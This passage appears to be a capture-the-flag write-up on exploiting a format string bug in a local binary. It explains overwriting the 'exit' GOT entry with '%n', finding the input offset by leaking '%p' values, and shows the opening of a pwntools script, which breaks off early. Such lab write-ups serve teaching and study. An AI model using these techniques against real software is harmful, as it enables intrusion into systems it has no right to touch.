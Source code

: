 ![](images/got.png)


I am going to overwrite the `exit` GOT entry in my exploit.

We can write value on stack using `%n` format specifier. However i am not going to do it manually. Let the pwntools handle it properly.

Before moving further let's calculate the offset.

lets throw bunch of `%p`.

![](images/format_offset.png)

if we observer output carefully , we can see our input being reflected at position 4. So our offset is going to be 4.

There is even a cool way to calculate the offset using pwntools.

## Let's Automate
```python
from pwn import *
from pwnlib.fmtstr import FmtStr
from time import sleep

context.terminal=['tmux', 'new-window']
#context.log_level = 'debug'
elf = context.binary = ELF('./malicious', checksec=False)


gs = '''
b main
'''

def calculate_offset(payload):

    p = process(elf.path)
    p.sendlineafter("?", "yes")
```